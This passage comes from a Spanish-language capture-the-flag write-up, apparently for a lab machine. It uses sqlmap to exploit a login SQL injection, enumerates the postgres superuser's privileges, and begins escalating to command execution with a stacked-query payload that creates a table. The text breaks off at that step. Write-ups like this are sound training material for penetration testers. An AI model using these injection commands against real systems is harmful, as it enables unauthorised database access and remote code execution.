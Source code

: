 ```
# sqlmap -u https://admin.megalogistic.com/ --risk=3 --level=5 --random-agent --batch --data "username=*&password=*" --current-user      

current user: 'postgres'
```

He `listado` los `privilegios` que tengo 

```
# sqlmap -u https://admin.megalogistic.com/ --risk=3 --level=5 --random-agent --batch --data "username=*&password=*" --privileges     

database management system users privileges:
[*] postgres (administrator) [2]:
    privilege: createdb
    privilege: super
```

He intentado `reutilizar` esta `contraseña` para conectarme a los diferentes servicios pero no ha funcionado, he encontrado este artículo [https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program) que dice que podemos `ejecutar comandos` si somos `super usuarios` o pertenecemos al grupo `pg_execute_server_program`. En nuestro caso somos tenemos el privilegio `super` así que podríamos `derivar` la `SQLI` a un `RCE`, lo primero que debemos hacer es abrir el `Burpsuite` y crear la tabla (es muy importante cerrar la query anterior con el `;` debido a que estamos en PostgreSQL)

![](/assets/img/Toolbox/image_5.png)

```
username=test'; CREATE TABLE cmd_exec(cmd_output text);-- - &password=test
```
